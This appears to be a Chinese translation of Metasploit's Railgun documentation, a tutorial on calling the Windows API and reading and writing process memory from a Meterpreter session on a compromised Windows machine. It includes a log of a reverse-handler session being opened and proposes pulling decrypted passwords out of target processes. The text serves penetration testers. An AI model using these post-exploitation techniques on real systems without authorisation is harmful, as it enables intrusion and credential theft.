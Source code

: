 RailGunner是Windows Meterpreter独有的强大的后期开发功能。它可以让你完全控制你的目标机器的Windows API，或者你可以使用你找到的任何DLL，并用它做更多的创意性的工作。例如：假设您在Windows目标上有一个meterpreter会话。你有一个特定的应用程序，你认为存储用户的密码，但它是加密的，但是没有工具在那里解密。使用RailGun，你可以做的是，你可以进入这个进程，并查找内存中发现的任何敏感信息，或者你可以查找负责解密的程序的DLL，调用它，并让它为你解密。如果你是渗透测试人员，显然后期开发是一项重要的技能，但如果你不知道railgun,你错过很多，

### 定义一个DLL及其函数
Windows API显然是相当多的，所以默认情况下，Railgun只有一些预定义的DLL和通常用于构建Windows程序的函数。这些内置DLL是：kernel32, ntdll, user32, ws2_32, iphlpapi, advapi32, shell32, netapi32, crypt32, wlanapi, wldap32, version.内置DLL的相同列表也可以通过使用该`known_dll_names`方法来检索。

所有all定义可以在这个"[def](https://github.com/rapid7/metasploit-framework/tree/master/lib/rex/post/meterpreter/extensions/stdapi/railgun/def)" 目录找到.他们是像一个类一样定义的.下面的模块应该能演示一个dll是怎么定义的

```ruby
# -*- coding: binary -*-
module Rex
module Post
module Meterpreter
module Extensions
module Stdapi
module Railgun
module Def

class Def_somedll

  def self.create_dll(dll_path = 'somedll')
    dll = DLL.new(dll_path, ApiConstants.manager)

    # 1st argument = Name of the function
    # 2nd argument = Return value's data type
    # 3rd argument = An array of parameters
    dll.add_function('SomeFunction', 'DWORD',[
      ["DWORD","hwnd","in"]
    ])

    return dll
  end

end

end; end; end; end; end; end; end
```
在函数定义,railgun支持这些数据类型:VOID, BOOL, DWORD, WORD, BYTE, LPVOID, HANDLE, PDWORD, PWCHAR, PCHAR, PBLOB.
有四个参数/缓冲区说明:in, out, inout, and return.将值传递给“in”参数时，Railgun将处理内存管理。例如，MessageBoxA有一个名为“in”的参数lpText，并且是PCHAR类型。你可以简单地传递一个Ruby字符串，然后Railgun处理剩下的事情，这非常简单。
“out”参数将始终是指针数据类型。基本上，你告诉Railgun要为参数分配多少字节，它分配内存，在调用函数时提供一个指向它的指针，然后读取该函数写入的内存区域，将其转换为Ruby对象，并将其添加到返回字典。
一个“inout”参数作为被调用函数的输入，但是可能会被其修改。您可以检查修改后的值的返回散列，如“out”参数。
在运行时定义一个新函数的快速方法,可以像下面的例子那样完成：

```ruby
client.railgun.add_function('user32', 'MessageBoxA', 'DWORD',[
	["DWORD","hWnd","in"],
	["PCHAR","lpText","in"],
	["PCHAR","lpCaption","in"],
	["DWORD","uType","in"]
 ])
```
但是，如果这个函数很可能被多次使用，或者它是Windows API的一部分，那么你应该把它放在库中。

### 示例
尝试Railgun的最好方法是在Windows Meterpreter提示符下使用irb。这是一个如何到达的例子：

```
$ msfconsole -q
msf > use exploit/multi/handler 
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.64:4444 
[*] Starting the payload handler...
[*] Sending stage (769536 bytes) to 192.168.1.106
[*] Meterpreter session 1 opened (192.168.1.64:4444 -> 192.168.1.106:55148) at 2014-07-30 19:49:35 -0500

meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

>>
```

注意,当你运行一个post模块或irb时，你总是有一个`client`或者一个`session`对象来处理，都指向相同的东西，在这种情况下是```Msf::Sessions::Meterpreter_x86_Win```.这个Meterpreter会话对象为您提供对目标机器的API访问，包括Railgun对象```Rex::Post::Meterpreter::Extensions::Stdapi::Railgun::Railgun```.这是你是如何简单的访问它

```ruby
session.railgun
```
如果你用irb运行上面的代码，你会发现它返回所有的DLL，函数，常量等的信息.它读取是有些不友好,因为那数据非常多.幸运的是，有一些方便的技巧可以帮助我们解决问题。例如，就像我们之前提到的那样，如果您不确定哪些DLL被加载，您可以调用`known_dll_names`方法：


```
>> session.railgun.known_dll_names
=> ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version"]
```

现在，假设我们对user32感兴趣，并且希望找到所有可用的函数（以及返回值的数据类型，参数），另一个方便的技巧是：

```ruby
session.railgun.user32.functions.each_pair {|n, v| puts "Function name: #{n}, Returns: #{v.return_type}, Params: #{v.params}"}
```

请注意，如果您碰巧调用了无效的或不受支持的Windows函数，会引发一个`runtimeerror`和错误信息.并显示可用函数的列表。
要调用Windows API函数，请执行以下操作：

```
>> session.railgun.user32.MessageBoxA(0, "hello, world", "hello", "MB_OK")
=> {"GetLastError"=>0, "ErrorMessage"=>"The operation completed successfully.", "return"=>1}
```
如果你能看到api调用返回一个字典.我们已经看到了一个习惯，有时人们不喜欢检查```GetLastError```, ```ErrorMessage```, 和```return``` 值.他们只是假设它是工作的。这是一个坏的程序习惯,是不推荐的.如果你也假设一些东西是工作的,和执行下一个api调用.你有可能获得意外的结果（最坏的情况：丢失Meterpreter会话）。

### 内存读写
这个Railgun类还有两个非常有用的方法，您可能会使用：memread和memwrite。名字是不言自明的：你读了一块内存，或者你写入一个内存区域。我们将在有效载荷本身中演示 一个新的内存块：

```
>> p = session.sys.process.open(session.sys.process.getpid, PROCESS_ALL_ACCESS)
=> #<#<Class:0x007fe2e051b740>:0x007fe2c5a258a0 @client=#<Session:meterpreter 192.168.1.106:55151 (192.168.1.106) "WIN-6NH0Q8CJQVM\sinn3r @ WIN-6NH0Q8CJQVM">, @handle=448, @channel=nil, @pid=2268, @aliases={"image"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::ProcessSubsystem::Image:0x007fe2c5a25828 @process=#<#<Class:0x007fe2e051b740>:0x007fe2c5a258a0 ...>>, "io"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::ProcessSubsystem::IO:0x007fe2c5a257b0 @process=#<#<Class:0x007fe2e051b740>:0x007fe2c5a258a0 ...>>, "memory"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::ProcessSubsystem::Memory:0x007fe2c5a25738 @process=#<#<Class:0x007fe2e051b740>:0x007fe2c5a258a0 ...>>, "thread"=>#<Rex::Post::Meterpreter::Extensions::Stdapi::Sys::ProcessSubsystem::Thread:0x007fe2c5a256c0 @process=#<#<Class:0x007fe2e051b740>:0x007fe2c5a258a0 ...>>}>
>> p.memory.allocate(1024)
=> 5898240
```
像你能看到的 新的分配在地址5898240(或者16进制 0x005A0000).让我们首先在上面写4个字节


```
>> session.railgun.memwrite(5898240, "AAAA", 4)
=> true
```

```memwrite```返回true,这种情况意味这成功,让我们从0x005A0000读取4个字节

```
>> session.railgun.memread(5898240, 4)
=> "AAAA"
```

请注意，如果提供的指针不正确，则可能导致访问冲突并使Meterpreter发生崩溃。

### 参考

https://www.youtube.com/watch?v=AniR-T0AnnI

https://www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf

https://dev.metasploit.com/redmine/projects/framework/wiki/RailgunUsage

https://github.com/rapid7/metasploit-framework/tree/master/lib/rex/post/meterpreter/extensions/stdapi/railgun

http://msdn.microsoft.com/en-us/library/ms681381(VS.85).aspx

http://msdn.microsoft.com/en-us/library/aa383749

http://undocumented.ntinternals.net/

http://source.winehq.org/WineAPI/
